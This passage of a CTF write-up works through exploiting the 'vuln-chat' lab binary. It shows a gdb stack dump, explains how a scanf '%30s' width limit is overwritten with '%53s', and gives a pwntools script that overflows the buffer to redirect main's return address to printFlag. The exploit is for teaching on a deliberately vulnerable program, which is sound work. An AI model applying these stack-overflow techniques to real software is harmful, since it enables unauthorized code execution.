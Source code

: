 When we run the script and check the stack in gdb, we can see that the return address is incorrect and has clearly changed from what we input:

```bash
gef➤  x/16wx $esp
0xffb72bb0:	0xffb72be3	0xffb72bcf	0xf62e84be	0xf65134a0
0xffb72bc0:	0xffb72c00	0xf651366c	0xf6513b10	0x41000001
0xffb72bd0:	0x41414141	0x41414141	0x41414141	0x41414141
0xffb72be0:	0x41414141	0x41414141	0x42424242	0xf62f006b
```
The return address now shows as `0xf62f006b` which is wrong. 


If we investigate what happens when we call scanf, we can see a value is passed as a format specifier `0x73303325`. We need to see what this maps to. We'll use pwntools to get the byte string: 

```bash
root-at-iyn@Ubuntu-220403-x86-64:~/Offensive-Security/Exploit-Dev/CTF-Labs/Nightmare$ python3 -c "from pwn import *; print(p32(0x73303325))"
b'%30s'
```
So this looks like a string format specifier that will be applied to the bytes scanf receives. If we look this up in the man page we see the following regarding format specifier directives preceeded with an integer:
> An  optional  decimal integer which specifies the maximum field width.  Reading of characters stops either when this maximum is reached or when a nonmatching character is found, whichever happens first.

So what appears to be happening here is that when we send input to scanf it will only read 30 bytes because of the format specifier. To get past this issue we'll have to send 20 bytes to get to ebp-0x5 and then append it with an increased format specifier. It makes sense why there's another call to scanf now. We'll have to perform the exploit that modifies main's return address to printFlag in the 2nd call to scanf. Looking at the assembly we see the input received in the 2nd call to scanf is stored in ebp-0x2d, so we can infer that sending 45 bytes should take us to ebp, plus another 4 bytes to overwrite ebp, then we append the address of printFlag. I'll modify the python script and then retest in gdb:


```python
from pwn import *

target = process("./vuln-chat")

gdb.attach(target, gdbscript="b *main")

payload = b"A" * 20 + b"%53s" # p32(0x804856b)
print(payload)

target.sendline(payload)

print(target.recvuntil(b"you?"))

payload2 = b"B" * 49 + p32(0x804856b)

target.sendline(payload2)

target.interactive()

```
